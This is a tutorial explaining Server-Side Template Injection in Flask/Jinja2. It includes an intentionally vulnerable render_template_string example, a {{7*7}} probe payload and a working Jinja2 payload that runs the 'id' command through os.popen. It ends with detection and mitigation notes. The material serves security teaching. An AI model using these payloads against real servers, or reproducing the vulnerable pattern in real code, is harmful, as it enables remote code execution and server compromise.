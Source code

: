 # **Server-Side Template Injection (SSTI)**

## **Introduction**

**Server-Side Template Injection (SSTI)** is a critical web vulnerability that occurs when user input is concatenated
directly into a template without proper sanitization, allowing attackers to inject malicious template expressions. This
can lead to severe consequences of remote code execution (RCE), data leakage, and unauthorized actions on the server.

## **Understanding Server-Side Template Injection**

### **What is SSTI?**

Template engines are used in web applications to generate dynamic HTML pages. SSTI occurs when user-supplied input is
embedded directly into a template in an unsafe manner. If the template engine processes the input as code, an attacker
can execute arbitrary code on the server.

### **How Does SSTI Occur?**

SSTI vulnerabilities arise when:

- User input is **directly** inserted into templates without proper sanitization.
- The application uses **unsafe** methods to render templates.
- The template engine allows execution of arbitrary code (e.g., accessing attributes, invoking functions).

#### **Example of Vulnerable Code (Python with Jinja2):**

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/hello')
def hello():
    name = request.args.get('name', 'World')
    template = f'Hello {name}!'
    return render_template_string(template)
```

In this example, user input `name` is directly embedded into the template, making it vulnerable to SSTI.

## **Attack Scenario: Exploiting SSTI in Different Template Engines**

### **Identifying the Template Engine**

Before exploiting SSTI, it's crucial to identify the template engine in use. Clues can be found through:

- Error messages revealing the template engine.
- Syntax used in the templates (e.g., <code v-pre>{{ }}</code>, <code v-pre>{% %}</code>, `${ }`).

### **Exploitation Examples**

#### **Exploiting Jinja2 (Python)**

**Payload to Trigger SSTI:**

```plaintext
{{ 7*7 }}
```

**Expected Output:**

```
49
```

**Achieving Remote Code Execution:**

```plaintext
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
```

**Explanation:**

- `config.__class__.__init__.__globals__['os']` accesses the `os` module.
- `.popen('id').read()` executes the `id` command and reads the output.

## **Detection**

### **Manual Testing**

- **Inject Common SSTI Payloads:** Use payloads like <code v-pre>{{7*7}}</code>, `${7*7}`, `#{7*7}` in input fields to
  check for code execution.

- **Observe Responses:** If the server responds with evaluated expressions (e.g., `49`), SSTI is likely present.

## **Conclusion**

Server-Side Template Injection is a severe vulnerability that can lead to complete server compromise. By understanding
how SSTI occurs and implementing robust input validation and secure coding practices, developers and security
professionals can mitigate these risks effectively.

## **References**

- [HackTricks - Jinja2 SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#jinja-injection)
